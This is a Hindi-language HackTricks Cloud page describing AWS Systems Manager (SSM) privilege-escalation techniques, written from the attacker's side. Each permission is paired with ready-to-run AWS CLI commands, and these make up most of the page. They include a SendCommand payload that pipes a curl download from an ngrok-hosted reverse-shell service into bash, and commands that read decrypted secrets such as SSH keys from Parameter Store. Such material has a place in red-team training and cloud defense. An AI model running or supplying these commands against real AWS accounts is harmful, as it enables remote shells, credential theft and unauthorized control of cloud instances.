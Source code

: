 # AWS - SSM विशेषाधिकार

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावता जिसके पास **`ssm:SendCommand`** अनुमति है, **Amazon SSM एजेंट चल रहे इंस्टेंसेस में कमांड निष्पादित** कर सकता है और उसमें चल रहे IAM रोल को **कंप्रोमाइज** कर सकता है।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** SSM एजेंट चल रहे EC2 IAM रोल्स में सीधा प्रिविलेज इस्केलेशन।

### `ssm:StartSession`

एक हमलावर जिसके पास **`ssm:StartSession`** अनुमति है, वह इंस्टेंस में **SSH जैसा सेशन शुरू कर सकता है** जो अमेज़ॅन SSM एजेंट चल रहे होते हैं और उसके अंदर चल रहे IAM रोल को **कम्प्रोमाइज** कर सकता है।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
एक सत्र शुरू करने के लिए आपको **SessionManagerPlugin** इंस्टॉल करने की आवश्यकता है: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** SSM एजेंट चल रहे EC2 IAM रोल्स में सीधा प्राइविलेज वृद्धि।

#### ECS को प्राइविलेज वृद्धि

जब **ECS tasks** **`ExecuteCommand` सक्षम** होते हैं, पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **कमांड चला सकते हैं**।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार यह उस सुरक्षित चैनल को बनाने के द्वारा किया जाता है जो आपको "एक्ज़ेक्यूट" कमांड प्रारंभ करने के लिए उपयोग किए गए उपकरण और SSM सत्र प्रबंधक कंटेनर के बीच एक सुरक्षित चैनल बनाता है।\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प के साथ ECS tasks के अंदर एक शैल मिल सकेंगे जिसे सक्षम करने के लिए केवल यह रन करना होगा:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम किए गए चल रहे tasks के साथ जुड़े `ECS` IAM roles में सीधा प्रिविलेज उन्नति।

### `ssm:ResumeSession`

एक हमलावर जिसके पास **`ssm:ResumeSession`** अनुमति है, वह इंस्टेंस में चल रहे अमेज़न SSM एजेंट के साथ **डिस्कनेक्टेड** SSM सत्र स्थिति में एक SSH जैसा सत्र फिर से **शुरू** कर सकता है और उसके अंदर चल रहे IAM रोल को **कमजोर** कर सकता है।
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रही इंस्टेंसेज के साथ जुड़े EC2 IAM रोल्स में सीधा प्रिविलेज इस्केलेशन, SSM एजेंट चल रहे हों और डिस्कनेक्टेड सेशन्स।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लेखित अनुमतियों के साथ हमलावर **SSM पैरामीटर्स** को सूचीबद्ध करने और **उन्हें साफ-साफ पढ़ने** की क्षमता रखेगा। इन पैरामीटर्स में आप अक्सर **एसएसएच कुंजी** या **एपीआई कुंजी** जैसी संवेदनशील जानकारी **पाएंगे**।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर्स में संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति वाले हमलावर के पास सभी **कमांड्स** की सूची बना सकते हैं और उम्मीद है कि उनमें **संवेदनशील जानकारी** मिलेगी।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइन्स में संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी भेजी गई **कमांड्स** की सूची बना सकता है और उत्पन्न **आउटपुट** पढ़ सकता है, जिससे उम्मीद है कि उसमें **संवेदनशील जानकारी** मिलेगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइन के आउटपुट में गोपनीय जानकारी खोजें।

### Codebuild

आप एक कोडबिल्ड परियोजना में भी अंदर जा सकते हैं जो निर्माण किया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
